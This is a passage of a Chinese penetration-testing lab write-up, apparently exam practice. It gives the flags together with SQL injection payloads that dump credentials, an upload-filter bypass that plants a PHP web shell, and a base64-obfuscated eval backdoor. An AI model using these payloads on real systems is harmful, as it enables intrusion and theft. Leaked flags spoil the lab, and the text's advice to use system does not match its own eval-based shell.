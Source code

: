 password,username

字段出来了，直接打印出来就好了

```
1',(SeLEct group_concat(password,username) from 2web.users1 limit 1),'login');-- -
1',(SeLEct password from 2web.users1 limit 1),'login');-- -
```

![image-20221226170319505](F:/Typora_pic/pte/image-20221226170319505.png)

**key1:{fkm5dnr6}**

## 2、http://10.11.0.92:1002

![image-20221224190534306](F:/Typora_pic/pte/image-20221224190534306.png)

这题是文件上传，直接用传文件，用BP拦截下来，拓展名改一下**new.php**

要注意会过滤eval，所以我们换**system**

改一下文件类型

```php+HTML
Content-Type: image/gif

GIF89a
<?php @eval($_POST[1]);?>
```

**key2:ef85ndsq**

## 3、http://10.11.0.92:1003

![image-20221224190602049](F:/Typora_pic/pte/image-20221224190602049.png)

这题是文件包含，先看url，有个文件view.html

http://10.11.0.92:1003/start/index.php?file=view.html

http://10.11.0.92:1003/start/view.html

右键查看源代码

```php+HTML
<?php 
@$a = $_POST['Hello']; 
if(isset($a)){ 
@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=')); 
} 
?>
Hello
<br>
Are you ok?
```
